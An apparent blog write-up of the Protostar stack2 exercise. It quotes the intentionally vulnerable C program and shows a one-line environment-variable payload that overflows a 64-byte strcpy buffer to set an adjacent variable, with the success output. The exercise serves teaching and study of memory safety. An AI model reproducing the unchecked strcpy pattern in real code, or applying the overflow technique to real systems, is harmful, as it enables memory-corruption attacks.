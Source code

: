 ```yaml
---
title: Protostar Writeup - stack2
updated: 2018-07-26 21:00
---
```


## Protostar - stack2

The aim of this challenge is to again change the modified variable, except that this one has a slight change.
We need to set an environment variable called `GREENIE`, whose value will be copied into buffer using the `strcpy()` method.
Here's the code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
    volatile int modified;
    char buffer[64];
    char *variable;

    variable = getenv("GREENIE");

    if(variable == NULL) {
        errx(1, "please set the GREENIE environment variable\n");
    }

    modified = 0;

    strcpy(buffer, variable);

    if(modified == 0x0d0a0d0a) {
        printf("you have correctly modified the variable\n");
    } else {
        printf("Try again, you got 0x%08x\n", modified);
    }

}
```

We need to some how get the value from buffer into the `modified` variable. So this is a standard stack overflow attack.
Now the question is how do we overflow the stack? The `strcpy()` method looks like the only thing we can exploit.
So lets take a look at the man pages. We find what we're looking for and we don't have to look far.

> Beware of buffer overruns!

This confirms that we will be exploiting this method. First things first. We need the buffer length.
From the code we see that it's 64 bytes, something familiar we've seen in the [previous]() problem.
Our padding is therefore 64 bytes and another thing is the value which we need to set. This is `0x0d0a0d0a`.
Keep in mind that this will have to be written in the little endian format.
Here's what our environment variable will look like.

```shell
$ export GREENIE=$(python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'")
```

After setting the environment variable, let's check whether it works.

```shell
$ ./stack2
you have correctly modified the variable
```

That was simple, since we had some intuition from the previous exercises. That's why the Protostar challenge is a good place to start.
Everything is organised. So each level depends on knowledge obtained in the previous levels.

### Sites

[Protostar](https://exploit-exercises.com/protostar/)
[Phrack](http://phrack.org/issues/49/14.html)
